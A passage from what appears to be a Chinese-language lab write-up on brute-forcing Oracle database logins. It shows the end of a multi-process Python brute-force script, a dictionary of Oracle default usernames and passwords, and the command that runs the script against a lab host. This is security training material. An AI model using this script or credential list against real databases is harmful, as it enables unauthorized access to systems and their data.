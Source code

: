 ```
        if status:
            print("Found {} / {}\n\n".format(username, pass_))
        else:
            sys.stdout.write("\r {}/{}                               ".format(username, pass_))

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
    main(sys.argv[1], sys.argv[2])
//这个脚本的主要作用是通过暴力破解的方式，批量测试一个用户名和密码列表，尝试连接到指定的Oracle数据库实例，以找到有效的用户名和密码对。该脚本使用多进程并行处理，提高了测试的效率。
```

除了脚本以外还需要构造字典，以下为 Oracle 数据库默认用户和默认密码，使用它作为字典辅助爆破

![截图](5247bfba9d34eb959a9f6cc47db334ec.png)

```
sys:change_on_install
system:manager
sysman:oem_temp
scott:tiger
aqadm:aqadm
Dbsnmp:dbsnmp
```

使用自写脚本进行爆破

```
python3 brute.py 10.10.10.82 userpass.txt
```

![截图](0399a54a896adf4a0317b40a62fdecd1.png)
